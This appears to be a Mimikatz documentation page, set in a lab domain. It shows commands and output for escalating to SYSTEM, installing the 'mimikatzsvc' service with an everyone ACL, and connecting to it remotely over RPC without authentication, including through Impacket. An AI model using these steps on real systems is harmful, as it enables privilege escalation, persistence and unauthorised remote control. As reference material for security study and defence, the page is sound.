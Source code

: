 # +

It installs `mimikatzsvc` by issuing `rpc::server service::me exit`. 

```text
mimikatz # privilege::debug
Privilege '20' OK
```

```text
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 118309013   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 118617400   NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```text
mimikatz # service::+
[*] 'mimikatzsvc' service not present
[+] 'mimikatzsvc' service successfully registered
[+] 'mimikatzsvc' service ACL to everyone
[+] 'mimikatzsvc' service started
```

![Successful installation of mimikatzsvc](../../.gitbook/assets/2.png)

The same methods as demonstrated on the `rpc::connect` section can be used to authenticate, without providing a username and password, over RPC:

```text
mimikatz # rpc::connect /remote:192.168.0.10 /noauth
[rpc] Remote   : 192.168.0.10
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!

mimikatz # *hostname
Win10.hacklab.local (WIN10)
```

```text
# python3 mimikatz.py 192.168.0.10
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
Win10.hacklab.local (WIN10)
```

